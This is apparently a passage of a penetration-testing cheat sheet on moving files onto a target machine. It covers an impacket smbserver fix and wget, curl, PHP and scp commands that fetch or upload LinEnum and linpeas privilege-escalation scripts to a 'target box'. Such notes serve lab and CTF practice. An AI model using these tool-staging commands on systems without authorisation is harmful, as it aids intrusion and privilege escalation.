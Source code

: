 * If you recieve this error when attempting to transfer files:

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Restart your smbserver.py with this option at the end:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . -smb2support
```

## Wget

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh	Download a file using Wget
```

## Curl

```
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh	Download a file using cURL
```

## PHP Download

```
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'	
```

## Secure Copy Protocol

* SCP a file from your attack box to a target box

```
scp /home/kali/Documents/linpeas.sh user@10.10.10.100:/tmp
```

* This command copies the file linpeas.sh to user on the target box and places it in the /tmp directory.
* SCP a file from your attack box while on the command line of a target box and place it in your present working directory.

```
scp jack@172.16.6.1:/home/kali/Documents/linpeas.sh .
```

#### SCP More Example Usage

* Upload a file using SCP
